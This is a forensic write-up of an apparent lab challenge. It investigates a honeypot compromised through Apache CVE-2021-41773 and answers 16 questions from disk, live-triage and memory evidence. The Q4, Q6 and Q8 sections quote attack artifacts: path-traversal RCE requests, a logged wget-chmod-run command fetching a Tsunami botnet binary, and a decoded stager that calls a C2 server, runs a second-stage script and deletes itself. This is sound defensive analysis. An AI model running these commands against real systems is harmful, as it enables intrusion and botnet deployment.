# 🛡️ AzurePot Lab — Write-up & Attack Artifact Analysis
*Comprehensive Investigation of Apache Vulnerability CVE-2021-41773 via Virtual Disk, RAM Memory, and Live Triage Data*

<p align="center">
  
  
  
  
  
</p>

---

## 📑 Table of Contents

- [1. Scenario Overview & Investigation Objectives](#1-scenario-overview--investigation-objectives)
- [2. Virtual Disk Analysis (Disk Forensics — Q1 to Q9)](#2-virtual-disk-analysis-disk-forensics--q1-to-q9)
  - [Q1: There is a script that runs every minute to do cleanup. What is the name of the file?](#q1-there-is-a-script-that-runs-every-minute-to-do-cleanup-what-is-the-name-of-the-file)
  - [Q2: The script in Q1 terminates processes associated with two Bitcoin miner malware files. What is the name of 1st malware file?](#q2-the-script-in-q1-terminates-processes-associated-with-two-bitcoin-miner-malware-files-what-is-the-name-of-1st-malware-file)
  - [Q3: The script changes the permissions for some files. What is their new permission?](#q3-the-script-changes-the-permissions-for-some-files-what-is-their-new-permission)
  - [Q4: What is the SHA256 of the botnet agent file?](#q4-what-is-the-sha256-of-the-botnet-agent-file)
  - [Q5: What is the name of the botnet in Q4?](#q5-what-is-the-name-of-the-botnet-in-q4)
  - [Q6: What IP address matches the creation timestamp of the botnet agent file in Q4?](#q6-what-ip-address-matches-the-creation-timestamp-of-the-botnet-agent-file-in-q4)
  - [Q7: What URL did the attacker use to download the botnet agent?](#q7-what-url-did-the-attacker-use-to-download-the-botnet-agent)
  - [Q8: What is the name of the file that the attacker downloaded to execute the malicious script and subsequently remove itself?](#q8-what-is-the-name-of-the-file-that-the-attacker-downloaded-to-execute-the-malicious-script-and-subsequently-remove-itself)
  - [Q9: The attacker downloaded SH scripts. What are the names of these files?](#q9-the-attacker-downloaded-sh-scripts-what-are-the-names-of-these-files)
- [3. Live Response Analysis (Live Response — Q10 to Q14)](#3-live-response-analysis-live-response--q10-to-q14)
  - [Q10: Two suspicious processes were running from a deleted directory. What are their PIDs?](#q10-two-suspicious-processes-were-running-from-a-deleted-directory-what-are-their-pids)
  - [Q11: What is the suspicious command line associated with the PID that ends with '45' in Q10?](#q11-what-is-the-suspicious-command-line-associated-with-the-pid-that-ends-with-45-in-q10)
  - [Q12: UAC gathered some data from the second process in Q10. What is the remote IP address and remote port that was used in the attack?](#q12-uac-gathered-some-data-from-the-second-process-in-q10-what-is-the-remote-ip-address-and-remote-port-that-was-used-in-the-attack)
  - [Q13: Which user was responsible for executing the command in Q11?](#q13-which-user-was-responsible-for-executing-the-command-in-q11)
  - [Q14: Two suspicious shell processes were running from the tmp folder. What are their PIDs?](#q14-two-suspicious-shell-processes-were-running-from-the-tmp-folder-what-are-their-pids)
- [4. RAM Memory Analysis (Memory Forensics — Q15 to Q16)](#4-ram-memory-analysis-memory-forensics--q15-to-q16)
  - [Q15: File => ubuntu.20211208.mem What is the MAC address of the captured memory?](#q15-file--ubuntu20211208mem-what-is-the-mac-address-of-the-captured-memory)
  - [Q16: File => ubuntu.20211208.mem From Bash history. The attacker downloaded an sh script. What is the name of the file?](#q16-file--ubuntu20211208mem-from-bash-history-the-attacker-downloaded-an-sh-script-what-is-the-name-of-the-file)
- [5. Complete Attack Chain Reconstruction](#5-complete-attack-chain-reconstruction)
- [6. MITRE ATT&CK® for Linux Mapping Table](#6-mitre-attck-for-linux-mapping-table)
- [7. Indicators of Compromise (IoCs) Summary Table](#7-indicators-of-compromise-iocs-summary-table)

---

## 1. Scenario Overview & Investigation Objectives

In early October 2021, an Ubuntu Linux honeypot server was deployed on the Azure platform to monitor attacks exploiting the well-known vulnerability in Apache HTTP Server 2.4.49 ([CVE-2021-41773](https://nvd.nist.gov/vuln/detail/CVE-2021-41773)). This vulnerability is caused by a path normalization flaw that allows attackers to use double URL-encoded sequences (such as `.%2e`) to traverse outside the web root directory (Path Traversal). When the CGI module is enabled, they can invoke `/bin/sh` to achieve Remote Code Execution (RCE).

As a publicly exposed server on the Internet, the honeypot was rapidly swept by automated cryptocurrency mining malware. To prevent system resource exhaustion and eliminate noisy data, the administrator configured a cron script to periodically purge `kinsing` mining files in the `/tmp` directory. Thanks to this, I can focus on investigating more dangerous and intriguing attack activities.

The lab provides three critical digital evidence sources:
- **`sdb.vhd.gz`**: Virtual hard disk (VHD) image of the primary disk, taken from an Azure disk snapshot.
- **`ubuntu.20211208.mem.gz`**: Physical RAM dump created using the LiME kernel module.
- **`uac.tgz`**: Live response triage data collected using the UAC (*Unix-like Artifacts Collector*) tool.

The system's evidence collection sequence was:
$$\text{Disk Snapshot (VHD)} \longrightarrow \text{RAM Extraction (LiME)} \longrightarrow \text{Live Triage (UAC)}$$

My objective is to solve 16 forensic questions, clarify the significance of each step in the investigation trail, and reconstruct the complete Attack Chain.

---

## 2. Virtual Disk Analysis (Disk Forensics — Q1 to Q9)

To analyze the `sdb.vhd` disk image, I used **FTK Imager** to mount the disk and began inspecting the system configuration as well as the Apache log files.

---

### Q1: There is a script that runs every minute to do cleanup. What is the name of the file?

When investigating a Linux server, the first place I think of to check for periodic automated tasks is the cron scheduling table (`/var/spool/cron/crontabs/`). Opening the crontab file of the root user, I immediately spotted a task configured to run every minute (`* * * * *`):


*Figure 1: Root user cronjob record in `/var/spool/cron/crontabs/root`*

Checking crontab right from the start helps establish a baseline for the system. This helps distinguish between an administrator's internal cleanup script and an attacker's persistence mechanism, avoiding misinterpretations in later steps.

👉 **Answer:** `.remove.sh` (located at `/root/.remove.sh`)

---

### Q2: The script in Q1 terminates processes associated with two Bitcoin miner malware files. What is the name of 1st malware file?

From the path found in Q1, I directly opened the `/root/.remove.sh` file to inspect what this script does:


*Figure 2: Contents of `/root/.remove.sh`*

The script content is straightforward: it uses `killall -9` and `pkill -9` to kill processes named `kinsing` and `kdevtmp`, while changing their permissions to `444` and transferring ownership to `root:root` in the `/tmp` directory.

Kinsing is a notorious Monero-mining malware family that aggressively scans for widespread RCE flaws. This information confirms that the honeypot was initially targeted by automated cryptominers. Knowing that the administrator actively neutralized Kinsing allows me to filter out noise and focus on other targeted attacks.

👉 **Answer:** `kinsing`

---

### Q3: The script changes the permissions for some files. What is their new permission?

In the `.remove.sh` script reviewed above, the command configuring file permissions is clearly stated: `chmod 444 /tmp/kinsing /tmp/kdevtmp`.

Changing permissions to `444` combined with transferring ownership to `root:root` makes these files read-only. An attacker operating under a low-privileged web service account cannot overwrite or re-execute the malware within the `/tmp` directory. When analyzing `/tmp`, encountering unusual files with `444` permissions indicates an active defensive mechanism rather than malware self-defense.

👉 **Answer:** `444` (read-only mode: `r--r--r--`)

---

### Q4: What is the SHA256 of the botnet agent file?

Next, I moved on to investigating the exploitation trail of CVE-2021-41773. Opening the web access log `/var/log/apache2/access.log`, I observed a series of requests exploiting Path Traversal using the `.%2e` sequence to read `/etc/passwd` and call `/bin/sh`:

```http
5.183.209.217 - - [06/Oct/2021:23:39:17 +0000] "GET /cgi-bin/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e//etc/passwd HTTP/1.1" 200 1567 "-" "curl/7.64.0"
5.183.209.217 - - [06/Oct/2021:23:39:41 +0000] "POST /cgi-bin/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e//bin/sh HTTP/1.1" 200 121432 "-" "curl/7.64.0"
18.27.197.252 - - [06/Oct/2021:23:45:36 +0000] "POST /cgi-bin/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e//bin/sh HTTP/1.1" 200 45 "-" "curl/7.64.0"
```

The POST requests to `/bin/sh` returning HTTP 200 confirm that the attacker successfully achieved RCE. Typically, after gaining a shell, attackers download malware to execute. I switched to examining `/var/log/apache2/error.log` and searched for execution permission commands (`chmod +x`):


*Figure 3: Error log recording the download and execution permission command for file `dk86`*

The Apache logs show an RCE command using `wget` to download `dk86` into `/tmp`, granting execution permissions via `chmod +x`, and running it in the background. Afterward, this file was relocated to `/var/tmp/` (since `/var/tmp` is not wiped upon reboot like `/tmp`). I extracted the binary `dk86` from `/var/tmp/` and computed its SHA256 hash.

👉 **Answer:** `0e574fd30e806fe4298b3cbccb8d1089454f42f52892f87554325cb352646049`

---

### Q5: What is the name of the botnet in Q4?

I took the calculated SHA256 hash and looked it up on VirusTotal to identify the file `dk86`:


*Figure 4: Analysis results of malware sample `dk86` on VirusTotal*

VirusTotal returned the most prevalent detection label as `tsunami` (and related variant `kaiten`). Tsunami is a dangerous Linux IRC botnet designed to recruit compromised servers into botnets for launching large-scale DDoS attacks.

👉 **Answer:** `tsunami`

---

### Q6: What IP address matches the creation timestamp of the botnet agent file in Q4?

Returning to `/var/log/apache2/error.log` at the timestamp when `dk86` was downloaded (`Thu Nov 11 19:08:22 2021`), thanks to the `mod_dumpio` module capturing HTTP stream data, I found the detailed log entry:

```text
[Thu Nov 11 19:08:22.859342 2021] [dumpio:trace7] [pid 803:tid 139978898114304] mod_dumpio.c(103): [client 141.135.85.36:51858] mod_dumpio: dumpio_in (data-HEAP): echo; /usr/bin/wget -O /tmp/dk86 http://138.197.206.223:80/wp-content/themes/twentysixteen/dk86; chmod +x /tmp/dk86; /tmp/dk86 &;
```

👉 **Answer:** `141.135.85.36`

---

### Q7: What URL did the attacker use to download the botnet agent?

Directly observing the `wget` command in the log from the previous question, the URL used by the attacker to download `dk86` is immediately apparent: `http://138.197.206.223:80/wp-content/themes/twentysixteen/dk86`

The path containing `/wp-content/themes/twentysixteen/` indicates that the attacker compromised a WordPress website to use as a malware staging depot. This technique helps bypass low-reputation URL filters since the compromised site is fundamentally legitimate.

👉 **Answer:** `http://138.197.206.223:80/wp-content/themes/twentysixteen/dk86`

---

### Q8: What is the name of the file that the attacker downloaded to execute the malicious script and subsequently remove itself?

Continuing to search through `error.log` for suspicious keywords like `curl`, `wget`, `rm -rf`, I discovered a highly suspicious Base64 encoded string downloaded from `b64.php` and piped directly into `| sh`:


*Figure 5: Malicious Base64 payload discovered in `error.log`*

Using CyberChef to decode this Base64 payload, I obtained the complete script:

```bash
PATH=/sbin:/bin:/usr/sbin:/usr/bin:/usr/local/bin
CURL="curl"
DOM="rr.blueheaven.live"
pkill -9 -f ".src.sh"
pkill -9 -f "pproxy"
out=$(curl -s --connect-timeout 5 http://rr.blueheaven.live/1010/online.php -u client:%@123-456@% 2> /dev/null)
enable=$(echo $out | awk '{split($0,a,","); print a[1]}')
online=$(echo $out | awk '{split($0,a,","); print a[2]}')
...
# Egress interface check and second-stage payload retrieval
if [ "$enable" -eq "1" ]; then
    rm -rf .miniconda.sh .api .ipid .spid .cron.sh .src.sh;
    $CURL -s http://$DOM/1010/b64.php -u client:%@123-456@% --data-urlencode "s=$base" -o .src.sh 2> /dev/null && chmod +x .src.sh > /dev/null 2>&1
    sh .src.sh > /dev/null 2>&1 &
fi
rm -rf .install
```

The script flow is as follows: The script is initially named `.install` -> Terminates old processes -> Checks egress network connectivity -> Sends request to C2 `rr.blueheaven.live` / `116.203.212.184` -> Fetches the second-stage script `.src.sh` to run in the background -> Finally deletes itself via `rm -rf .install`.

This is a Defense Evasion technique (File Deletion - T1070.004). The attacker automatically deletes the stager file immediately after execution to evade static file scanners. Decoding this script reveals a crucial link: a background child process named `.src.sh` is running stealthily on the system!

👉 **Answer:** `.install`

---

### Q9: The attacker downloaded SH scripts. What are the names of these files?

Continuing to filter `error.log` for requests targeting `.sh` files, I discovered additional malicious scripts:


*Figure 6: Log entries recording `.sh` script files downloaded to the server*

- **`ap.sh`**: Downloaded repeatedly from IP `45.137.155.55` and piped directly into bash (`curl ... | bash`) to execute in-memory (Fileless execution).
- **`0_cron.sh`** and **`0_linux.sh`**: Downloaded from IP `103.55.36.245`. Judging by their names, they aim to establish cron jobs for persistence and reconfigure the Linux environment.

This information reflects the "battleground" nature of a honeypot: multiple threat actor groups concurrently exploiting the same vulnerability. It reveals additional malicious IPs and in-memory execution techniques to watch out for.

👉 **Answer:** `ap.sh, 0_cron.sh, 0_linux.sh`

---

## 3. Live Response Analysis (Live Response — Q10 to Q14)

Examining the disk tells me what the attacker wrote to disk in the past. But to know which processes were actively running at the time of investigation, I proceeded to extract and analyze the UAC package (`uac.tgz`).

---

### Q10: Two suspicious processes were running from a deleted directory. What are their PIDs?

In Linux, if an attacker creates a directory and then deletes it while processes are still running, the Current Working Directory (`cwd`) symlink under `/proc/<PID>/` displays the suffix `(deleted)`. Inspecting UAC's process list, I immediately caught this anomaly:


*Figure 7: Two processes running from the deleted directory `/var/tmp/.log/101068/.spoollog (deleted)`*

Two processes were running from the deleted directory `/var/tmp/.log/101068/.spoollog (deleted)`:
- **PID `6388`**: Running the `sleep` command.
- **PID `20645`**: Running the `sh` command.

This is a classic process-hiding technique: attackers create a hidden directory deep inside `/var/tmp`, execute their malware, and immediately delete the directory. Standard on-disk file scanners will be completely blind to it, yet the Linux kernel continues running the process in RAM.

👉 **Answer:** `6388, 20645`

---

### Q11: What is the suspicious command line associated with the PID that ends with '45' in Q10?

For the process ending in '45', which is PID `20645`, I examined `/proc/20645/cmdline` to check the actual command executed. The output showed: the process was running `.src.sh`.

This is a perfect evidence correlation! The `.src.sh` script that I decoded earlier from the `.install` stager on disk in Q8 is the exact live process running under PID 20645. The leading dot also indicates a deliberate effort to disguise it as a hidden file in Linux.

👉 **Answer:** `.src.sh` (or `sh .src.sh`)

---

### Q12: UAC gathered some data from the second process in Q10. What is the remote IP address and remote port that was used in the attack?

To determine who triggered process PID `20645`, I went into `/proc/20645/` and opened `environ.txt`. Because this process was spawned from the Apache web service, CGI environment variables remained preserved:


*Figure 8: Environment variables in `/proc/20645/environ.txt` revealing the remote IP address and Port*

Among the environment variables, `REMOTE_ADDR` and `REMOTE_PORT` clearly display the attacker's connection:

👉 **Answer:** `116.202.187.77:56590`

---

### Q13: Which user was responsible for executing the command in Q11?

Checking the User/UID field in PID 20645's process information (in `status` or `ps.txt` from UAC), the process was executed under the `daemon` account.

The `daemon` account is the default user running the Apache service in this environment. This confirms that the attacker was still limited to web server privileges and had not yet escalated to root. It explains why the attacker had to operate in `/tmp` and `/var/tmp` — world-writable directories.

👉 **Answer:** `daemon`

---

### Q14: Two suspicious shell processes were running from the tmp folder. What are their PIDs?

Continuing to scan the process list in UAC for shell processes (`sh`/`bash`) with their working directory in `/tmp`, I discovered two active shell processes:


*Figure 9: Two suspicious shell processes running from the `/tmp` directory*

🔍 **Trace Significance:** Shell processes running from `/tmp` are typical signs of an interactive webshell or reverse shell. Capturing live PIDs gives incident responders grounds to terminate active connections immediately during real-world containment.

👉 **Answer:** `15853, 21785`

---

## 4. RAM Memory Analysis (Memory Forensics — Q15 to Q16)

To search for traces that the attacker deliberately wiped from disk, I used the **Volatility 3** framework to analyze the memory dump `ubuntu.20211208.mem.gz`.

---

### Q15: File => ubuntu.20211208.mem What is the MAC address of the captured memory?

To verify the identity of the host whose RAM was dumped, I used the `linux.ip.Addr` plugin (or network interface configuration) in Volatility 3:


*Figure 10: Extracting MAC address from RAM using Volatility 3*

The plugin reads the virtual `eth0` network card configuration from kernel memory and displays the MAC address:

👉 **Answer:** `00:22:48:26:3b:16`

---

### Q16: File => ubuntu.20211208.mem From Bash history. The attacker downloaded an sh script. What is the name of the file?

Attackers often delete `.bash_history` before disconnecting. However, recently typed commands remain stored in the memory buffer of the bash process in RAM. I used the `linux.bash.Bash` plugin to scan command history in memory:


*Figure 11: Recovering bash command history in RAM using the `linux.bash.Bash` plugin*

Filtering for `wget`/`curl` commands exposed a download command for a script never before seen on disk:

👉 **Answer:** `unk.sh`

---

## 5. Complete Attack Chain Reconstruction

Correlating all the evidence gathered from Disk, Live Triage, and RAM, I reconstructed the full picture of the attack on the Honeypot server chronologically:

1. **Initial Access & Exploitation:** Attackers used automated scanning tools sending HTTP POST requests with double-encoded `.%2e` targeting Apache 2.4.49, successfully exploiting Path Traversal & RCE (CVE-2021-41773) to invoke `/bin/sh` under the `daemon` account.
2. **Cryptocurrency Mining Sweeps & Honeypot Action (Noise Filtering):** Monero mining malware `kinsing` and `kdevtmp` flooded into `/tmp`. The administrator intervened with `/root/.remove.sh` running every minute to kill miner processes and lock files with `444` permissions to keep the system clean for observation.
3. **Tsunami Botnet Deployment:** From IP `141.135.85.36`, the attacker executed an RCE command using `wget` to download binary `dk86` from a compromised WordPress site (`138.197.206.223`), made it executable, and moved it to `/var/tmp/` to persist across reboots. The sample was identified as Tsunami/Kaiten DDoS botnet.
4. **Anonymous Stager & Self-Deletion (Defense Evasion):** The attacker delivered a Base64 payload via `curl | sh` generating `.install`. This script checked egress Internet connectivity, pinged C2 `rr.blueheaven.live`, downloaded second-stage script `.src.sh` to run in background, then immediately deleted itself via `rm -rf .install`.
5. **Ghost Process & C2 Connection:** The `.src.sh` process (PID 20645) alongside `sleep` (PID 6388) remained hidden and running from the unlinked directory `/var/tmp/.log/101068/.spoollog (deleted)`, maintaining an interactive connection with the attacker at `116.202.187.77:56590`.
6. **Stealth Shell Activity:** The attacker maintained two live shells in `/tmp` (PID 15853, 21785), downloaded `unk.sh`, and wiped disk history, but was caught through RAM analysis.

### Attack Workflow Diagram

